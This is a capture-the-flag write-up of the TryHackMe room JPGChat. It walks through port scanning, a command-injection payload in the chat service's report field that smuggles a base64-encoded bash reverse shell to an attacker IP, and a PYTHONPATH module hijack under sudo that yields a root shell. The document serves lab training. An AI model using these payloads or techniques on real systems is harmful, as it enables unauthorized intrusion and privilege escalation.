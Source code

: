```yaml
---
title: "JPGChat"
date: 2025-03-12
image: /assets/img/general/CTFgeneral_image.jpg
description: Writeup of the TryHackMe-CTF JPGChat
categories: [TryHackMe, Easy]
tags: [linux, python]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>JPGChat</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Exploiting poorly made custom chatting service written in a certain language...</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/jpgchat">https://tryhackme.com/room/jpgchat</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge JPGChat.

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.77.133
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-12 04:51 EDT
Nmap scan report for 10.10.77.133
Host is up (0.045s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  ppp

Nmap done: 1 IP address (1 host up) scanned in 29.32 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,3000 10.10.77.133
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-12 04:52 EDT
Nmap scan report for 10.10.77.133
Host is up (0.038s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fe:cc:3e:20:3f:a2:f8:09:6f:2c:a3:af:fa:32:9c:94 (RSA)
|   256 e8:18:0c:ad:d0:63:5f:9d:bd:b7:84:b8:ab:7e:d1:97 (ECDSA)
|_  256 82:1d:6b:ab:2d:04:d5:0b:7a:9b:ee:f4:64:b5:7f:64 (ED25519)
3000/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5.49 seconds
```
From here I proceeded the analysis by port 3000.

## Port 3000 Analysis

```bash
$ nc 10.10.77.133 3000           
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

A quick search revealed the <a href="https://github.com/Mozzie-jpg/JPChat">GitHub</a> repository, along with the source code. The most important part is the report functionality. In that section, I had control over a variable that is included in a command. The command is then executed by Bash. Before testing on the server, I created a small proof of concept:
```python
import os
report_text = test;whoami; echo test"
os.system("bash -c 'echo %s >> /home/kali/Desktop/report.txt'" % report_text)
```
The payload worked, and I got the output as expected:
```bash
$ python3 test.py
  test
	kali
```

Using the `;` I was able to expand the logic and break out. Since I was able to execute arbitrary commands on the system, I managed to gain a reverse shell using the predefined Penelope payloads:
```bash
$ nc 10.10.77.133 3000
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
[REPORT]
this report will be read by Mozzie-jpg
your name:
test;echo -n c2V0c2lkIGJhc2ggPiYgL2Rldi90Y3AvMTAuMTAuMTAuMTAvOTAwMSAwPiYxICYK|base64 -d|bash; echo test
your report:
test
```

With this initial access, I was able to successfully retrieve the user flag:
```bash
wes@ubuntu-xenial:~$ cd /home/wes
wes@ubuntu-xenial:~$ cat user.txt
	JPC{[remove]}
```

## Privilege Escalation vagrant

I continued by running `sudo -l` and received the following output:
```bash
wes@ubuntu-xenial:~$ sudo -l
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

The script that is executed with root privileges imports `compare`. Furthermore, the `PYTHONPATH` environment variable wasn't set, allowing me to manipulate the location where Python looks for imports:
```python
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```

For an initial proof of concept, I searched for a directory where I had write permissions and set the `PYTHONPATH` to that location:
```bash
wes@ubuntu-xenial:~$ find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
	[...]
	/home/wes
  [...]
wes@ubuntu-xenial:~$ export PYTHONPATH=/home/wes
```

I created a script called `compare.py`, added a print statement, and made it executable. When I ran `test_module.py` with sudo, my own `compare.py` was executed:
```bash
wes@ubuntu-xenial:~$ echo "print(1)" > compare.py
wes@ubuntu-xenial:~$ chmod +x compare.py 
wes@ubuntu-xenial:~$ sudo /usr/bin/python3 /opt/development/test_module.py
1
Traceback (most recent call last):
  File "/opt/development/test_module.py", line 5, in <module>
    print(compare.Str('hello', 'hello', 'hello'))
NameError: name 'compare' is not defined
```

Great! Since I aimed to gain root privileges, I modified `compare.py` to spawn a Bash shell. After running the main script again, I was able to retrieve the root flag:
```bash
wes@ubuntu-xenial:~$ echo "import pty;pty.spawn('bash')" > compare.py
wes@ubuntu-xenial:~$ sudo /usr/bin/python3 /opt/development/test_module.py
root@ubuntu-xenial:~# whoami
root
root@ubuntu-xenial:~# cat /root/root.txt 
JPC{[remove]}

Also huge shoutout to Westar for the OSINT idea
i wouldn't have used it if it wasnt for him.
and also thank you to Wes and Optional for all the help while developing

You can find some of their work here:
https://github.com/WesVleuten
https://github.com/optionalCTF
```

solved! :)
